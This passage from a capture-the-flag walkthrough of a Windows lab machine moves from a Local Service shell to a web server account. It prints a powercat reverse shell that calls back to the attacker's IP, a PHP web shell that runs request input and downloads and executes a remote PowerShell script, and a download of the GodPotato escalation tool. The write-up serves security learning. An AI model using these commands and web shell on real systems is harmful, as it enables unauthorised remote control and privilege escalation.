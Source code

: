 This is running under service account `NT AUTHORITY\Local Service`

### Lateral move to NETWORK SERVICE

Since the "NETWORK SERVICE" account is running httpd with php files, we can craft a PHP file `cmd.php` that will execute come system commands :

Just as previously, we will get a powercat shell on an other port :

```shell
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
echo "powercat -c 10.10.14.23 -p 4446 -e powershell" >> shell2.ps1
```

Start the reverse shell on port 4446 :

```shell
rlwrap -cAr nc -lvnp 4446
```

Let's craft a PHP file that will download and execute this new reverse shell :

```php
<?php
if(isset($_REQUEST['cmd'])){ 
echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;
} else {
echo "<pre>"; $cmd = ":\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:9090/shell2.ps1')";
system( $cmd ); echo "</pre>"; die;
}
?>
```

From the actual reverse shell, download this new php file :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/cmd.php -OutFile c:\xampp\htdocs\uploads\cmd.php
```

and we can directly call it's URL to execute it : http://10.10.11.234/uploads/cmd.php. The shell opens under account "nt authority\local service" :

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\local service
PS C:\xampp\htdocs\uploads>
```

### Privilege Escalation

Since we are under a service account, we can try to move to system account using one potato tools.

```shell
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```
